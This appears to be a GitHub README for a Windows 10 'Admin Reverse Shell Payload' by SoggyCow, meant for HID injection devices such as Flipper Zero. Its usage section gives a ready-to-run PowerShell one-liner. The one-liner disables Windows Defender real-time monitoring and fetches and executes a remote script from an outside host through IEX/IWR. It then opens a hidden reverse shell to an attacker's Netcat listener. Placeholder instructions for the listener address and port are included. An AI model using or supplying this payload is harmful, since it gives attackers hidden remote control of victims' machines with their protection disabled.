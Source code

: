 # 🐚 Admin Reverse Shell Payload

**Author:** [SoggyCow](https://github.com/SoggyCow)  
**Target OS:** Windows 10  
**Interface:** CMD, PowerShell  
**Privilege Level:** Admin Required

---

## 📌 Description

This payload launches an elevated `cmd.exe` session via Task Manager, disables Windows Defender, and executes a hidden PowerShell reverse shell using `Invoke-ConPtyShell`. Designed for adversarial testing, red team ops, and modular deployment via HID devices (e.g., Flipper Zero, BadUSB).

---

## ⚙️ Features

- 🪟 Elevates privileges via Task Manager GUI
- 🛡️ Disables Windows Defender Realtime Monitoring
- 🧠 Executes reverse shell in hidden PowerShell window
- 🧩 Modular and repo-ready for tactical deployment

---

## 🔧 Configuration

Before deployment, replace the following placeholders in the payload:

| Placeholder             | Description                              |
|------------------------|------------------------------------------|
| `[LISTENER_IP_ADDRESS]`| IP address of your Netcat listener       |
| `[PORT]`               | Port number for reverse shell connection |

---

## 🚀 Usage

Deploy via HID injection tools (e.g., Flipper Zero, Rubber Ducky) or manually execute on target systems with GUI access.

```powershell
taskkill /IM taskmgr.exe && powershell -WindowStyle hidden Set-MpPreference -DisableRealtimeMonitoring $true; IEX(IWR 'https://ps1.soggycow.com/remote-access/Invoke-ConPtyShell.ps1' -UseBasicParsing); Invoke-ConPtyShell [LISTENER_IP_ADDRESS] [PORT]
